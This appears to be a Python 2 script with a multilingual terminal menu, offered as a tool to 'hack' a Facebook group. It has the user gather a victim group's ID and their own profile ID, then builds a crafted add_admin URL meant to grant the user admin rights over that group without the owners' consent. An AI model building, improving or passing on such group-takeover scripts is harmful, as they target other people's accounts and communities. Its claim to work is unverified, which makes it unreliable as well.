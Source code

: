 print "%s ===================================================%s" % (C, N)

print

print " %sLanguage/Bahasa:%s" % (W, N)

print

print "%s (%s01%s)%s -- %sIndonesia%s" % (B, C, B, Y, W, N)

print "%s (%s02%s)%s -- %sEnglish%s" % (B, C, B, Y, W, N)

print "%s (%s03%s)%s -- %sTetum%s" % (B, C, B, Y, W, N)

print

bahasa = raw_input("%s[%s*%s] %sPilih/Choose/Hili:%s " % (C, Y, C, W, B))


try:

	file = open("link.txt", 'w')

except(IOError):

	print "ERROR"

	sys.exit()


if bahasa.strip() in "01 1".split():

  print " %s[%s Indonesia%s ]%s" % (R, W, R, N)

  print

  tahap1 = raw_input("%s1%s)%s Pertama cari grup di%s facebook%s yang ingin kamu%s hack%s...%s[%sEnter%s]%s" % (Y, C, W, B, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap2 = raw_input("%s2%s)%s Setelah itu klik url grupnya dan salin 15 digit kode ajaib grup. Contoh punya grup %sADM%s (%s 589101351254979%s )%s...%s[%sEnter%s]%s" % (Y, C, W, R, C, B, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap3 = raw_input("%s3%s)%s Sekarang masuk ke profilmu dan cari 15 digit kode profilmu. Contoh punya%s saya %s(%s 100004136748473 %s)%s...%s[%sEnter%s]%s" % (Y, C, W, R, C, B, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap4 = raw_input("%s4%s)%s Bila anda kesusahan mendapatkan kode 15 digit tersebut. Coba masuk lewat browser bawaan...%s[%sEnter%s]%s" % (Y, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  tahap5 = raw_input("%s5%s)%s Setelah menemukan kode grup korban dan kode profil anda. Kita mulai %spenggabungan kode%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  grup = raw_input(" %s(%sa%s)%s Kode Grup%s >>>%s " % (W, C, W, C, R, Y))

  anda = raw_input(" %s(%sb%s)%s Kode Anda%s >>>%s " % (W, C, W, C, R, Y))

  print " %s(%s*%s)%s Hasil%s >>> %shttps://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange%s" % (C, Y, C, W, R, B, grup, anda, N)
